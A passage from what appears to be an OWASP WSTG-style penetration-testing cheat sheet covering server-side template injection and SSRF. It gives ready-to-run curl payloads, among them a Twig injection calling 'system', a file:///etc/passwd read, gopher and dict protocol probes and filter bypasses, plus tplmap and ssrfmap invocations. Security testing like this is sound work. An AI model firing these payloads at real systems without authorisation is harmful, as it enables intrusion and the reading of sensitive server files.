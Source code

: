```bash

# Test for template injection with command execution (Twig)
curl -s "https://example.com/page?param={{['id']|filter('system')}}"

# Use specialized tools for template injection
python3 tplmap.py -u "https://example.com/page?param=SSTI"
```

## WSTG-INPV-19: Testing for Server-Side Request Forgery

**Objective**: Identify SSRF injection points, test if the injection points are exploitable, and assess the severity of the injection.

### Commands

```bash
# Test for basic SSRF
curl -s "https://example.com/fetch?url=http://localhost"
curl -s "https://example.com/fetch?url=http://127.0.0.1"

# Test for SSRF to internal networks
curl -s "https://example.com/fetch?url=http://192.168.0.1"
curl -s "https://example.com/fetch?url=http://10.0.0.1"

# Test for SSRF with different protocols
curl -s "https://example.com/fetch?url=file:///etc/passwd"
curl -s "https://example.com/fetch?url=dict://localhost:11211/stats"
curl -s "https://example.com/fetch?url=gopher://localhost:25/xHELO%20localhost"

# Test for SSRF bypass using DNS rebinding
curl -s "https://example.com/fetch?url=http://ssrf.burpcollaborator.net"

# Test for SSRF bypass using URL encoding
curl -s "https://example.com/fetch?url=http%3A%2F%2F127.0.0.1"
curl -s "https://example.com/fetch?url=http%3A%2F%2Flocalhost"

# Test for SSRF bypass using IPv6
curl -s "https://example.com/fetch?url=http://[::1]"
curl -s "https://example.com/fetch?url=http://[0:0:0:0:0:0:0:1]"

# Test for SSRF in different parameters
for param in "url" "uri" "path" "src" "dest" "redirect" "location"; do
  curl -s "https://example.com/fetch?$param=http://localhost"
done

# Use specialized tools for SSRF testing
python3 ssrfmap.py -u "https://example.com/fetch?url=FUZZ"
```

## WSTG-INPV-20: Testing for Mass Assignment
